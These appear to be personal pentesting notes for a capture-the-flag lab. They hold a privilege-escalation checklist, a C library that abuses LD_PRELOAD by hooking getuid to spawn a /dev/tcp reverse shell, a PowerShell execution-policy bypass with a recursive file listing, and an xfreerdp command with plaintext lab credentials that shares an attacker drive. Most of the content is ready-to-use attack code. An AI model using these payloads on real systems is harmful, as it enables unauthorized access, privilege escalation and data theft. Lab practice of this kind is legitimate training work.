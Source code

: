 # Notes

> Reconncenc

If found id\_rsa make chmod 600 to access file

> Initial Access



> Privesc

* [ ] Find SUID Files like (u+s,g+s)
* [ ] in Linux/Unix Search in process running can find any  suspicious process like use **`systemctl list-units --type=service --all`**
*   #### LD\_PRELOAD bypass <a href="#ld_preload-bypass" id="ld_preload-bypass"></a>



Here is a library you can compile to abuse the `LD_PRELOAD` env variable:

```c
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <stdlib.h>

uid_t getuid(void){
	unsetenv("LD_PRELOAD");
	system("bash -c \"sh -i >& /dev/tcp/127.0.0.1/1234 0>&1\"");
	return 1;
}
```

> Post-exploitation

* [ ] In Windows use Powershell -ep bypass then  use this command to get important files

```powershell
Get-ChildItem -Recurse -File -ErrorAction SilentlyContinue | Select-Object FullName
```

* [ ] if Port 3389 is Open try connect using rdesktop or xfreerdp and use /drive:.,kali-share to shere your partition on attacker Machine

{% code overflow="wrap" %}
```bash
xfreerdp /v:cyberlens.thm /u:CyberLens /p:HackSmarter123 /size:80% /drive:.,kali-share 
```
{% endcode %}

